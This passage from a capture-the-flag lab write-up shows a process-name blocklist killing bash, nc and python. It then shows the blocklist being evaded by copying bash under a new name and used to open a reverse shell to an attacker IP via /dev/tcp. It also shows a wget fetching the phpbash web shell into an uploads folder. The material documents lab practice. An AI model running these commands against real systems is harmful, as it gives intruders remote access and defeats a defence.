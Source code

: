     POSSIBLE INTRUSION BY BLACKLISTED PROCCESS bash       ...PROCESS KILLED AT 2020-08-23 07:36:15.442945
    POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2020-08-23 07:37:29.782751
    POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python     ...PROCESS KILLED AT 2020-08-23 07:41:12.786494
    

The times line up with when I was trying to get a reverse shell. It seems
something is killing processes, and based on the word “blacklist”, it seems
likely that certain processes are being identified by process name and killed.
Both versions of Python, Netcat, `sh`, and Bash all seem to be triggers.

### Shell

The problem with using blocklists on filenames as a defensive measure is that
it’s not that hard for the attacker to make a copy of a binary and give it a
different un-blocklisted name.

    
    
    calamity> cp /bin/bash /dev/shm/0xdf
    calamity> chmod +x /dev/shm/0xdf
    calamity> /dev/shm/0xdf -c '/dev/shm/0xdf -i >& /dev/tcp/10.10.14.24/443 0>&1'
    

I get a shell at `nc`:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.27.
    Ncat: Connection from 10.10.10.27:47338.
    0xdf: cannot set terminal process group (1376): Inappropriate ioctl for device
    0xdf: no job control in this shell
    www-data@calamity:/var/www/html$
    

Alternatively, I can upload something like
[phpbash](https://github.com/Arrexel/phpbash). I can’t write to the webroot,
but I can write to the `/uploads` folder:

    
    
    calamity> wget 10.10.14.24/phpbash.php -O uploads/df.php
    calamity> ls uploads
    df.php
    

It works:

![image-20200824102426481](https://0xdfimages.gitlab.io/img/image-20200824102426481.png)

Or, I could skip getting a shell all together. I’ve already got `user.txt`,
and the only other files I need from this step are retrievable through the
webshell.
